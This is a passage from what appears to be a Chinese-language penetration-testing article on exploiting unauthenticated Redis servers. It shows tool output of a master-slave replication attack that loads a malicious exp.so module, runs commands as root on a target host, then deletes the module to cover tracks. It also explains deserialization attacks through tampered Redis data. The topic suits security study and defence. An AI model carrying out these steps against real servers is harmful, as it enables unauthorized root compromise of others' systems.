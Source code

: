 ```
[-&gt;] b'+OK\r\n'
[&lt;&lt;]
```

脚本内RCE

```
[&lt;&lt;] whoami
[&lt;-] b'*2\r\n$11\r\nsystem.exec\r\n$6\r\nwhoami\r\n'
[-&gt;] b'$5\r\nroot\n\r\n'
[&gt;&gt;] root
[&lt;&lt;] id
[&lt;-] b'*2\r\n$11\r\nsystem.exec\r\n$2\r\nid\r\n'
[-&gt;] b'$39\r\nuid=0(root) gid=0(root) groups=0(root)\n\r\n'
[&gt;&gt;] uid=0(root) gid=0(root) groups=0(root)
[&lt;&lt;]
```

redis连接目标主机：执行恶意命令（效果同上）

```
192.33.6.129:6379&gt; system.exec "id"
"uid=0(root) gid=0(root) groups=0(root)\n"
192.33.6.129:6379&gt;
```

清除后门文件：exit

```
[&lt;&lt;] exit
[&lt;-] b'*4\r\n$6\r\nCONFIG\r\n$3\r\nSET\r\n$10\r\ndbfilename\r\n$8\r\ndump.rdb\r\n'
[-&gt;] b'+OK\r\n'
[&lt;-] b'*2\r\n$11\r\nsystem.exec\r\n$11\r\nrm ./exp.so\r\n'
[-&gt;] b'$0\r\n\r\n'
[&lt;-] b'*3\r\n$6\r\nMODULE\r\n$6\r\nUNLOAD\r\n$6\r\nsystem\r\n'
[-&gt;] b'+OK\r\n'
```
- 主从复制RCE优势
对于现在服务器(云服务器)的发展部署，容器化部署成为热潮，单一的容器对应单一的服务，也就导致redis容器服务中很难包括除redis服务以外的任何服务【不限于SSH服务、WWW服务等】，针对这个问题也就导致以往普遍的redis未授权利用手法变得不在适用，很难通过特定目录写入特定恶意文件来取得服务器权限。

然而，redis4.x之后新增的模块拓展功能打破了这个限制，使攻击者可以利用注入恶意so文件来达到任意命令执行直接获得服务器主机权限。

### <a class="reference-link" name="%E5%85%AC%E7%BD%91Redis%E6%9C%AA%E6%8E%88%E6%9D%83+%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%94%BB%E5%87%BB"></a>公网Redis未授权+反序列化攻击

redis中经常会存储各种序列化后的数据，而攻击者往往会将其中的序列化后的数据进行修改为恶意数据，当应用程序读取redis里面的数据并反序列化使用的时候就可能会达到一定的攻击效果。

> redis 反序列化本质上不是 redis 的漏洞，而是使用 redis 的应用反序列化了 redis 的数据而引起的漏洞，redis 本就是一个缓存服务器，用于存储一些缓存对象，所以在很多场景下 redis 里存储的都是各种序列化后的对象数据。

当Redis存在未授权攻击时，攻击者可以通过直接修改 Redis 中序列化后的数据，改为恶意的相应序列化payload，之后等待相关的服务应用程序读取该数据并反序列化处理该数据之后就会造成相应的攻击。

相关分析文章：
- [Spring Data Redis &lt;=2.1.0反序列化漏洞](https://xz.aliyun.com/t/2339)
- [细数 redis 的几种 getshell 方法-反序列化](https://paper.seebug.org/1169/#_3)
- [掌阅iReader某站Python漏洞挖掘](https://www.leavesongs.com/PENETRATION/zhangyue-python-web-code-execute.html)
### <a class="reference-link" name="%E5%85%AC%E7%BD%91Redis%E6%9C%AA%E6%8E%88%E6%9D%83+%E7%9B%B8%E5%85%B3CVE"></a>公网Redis未授权+相关CVE
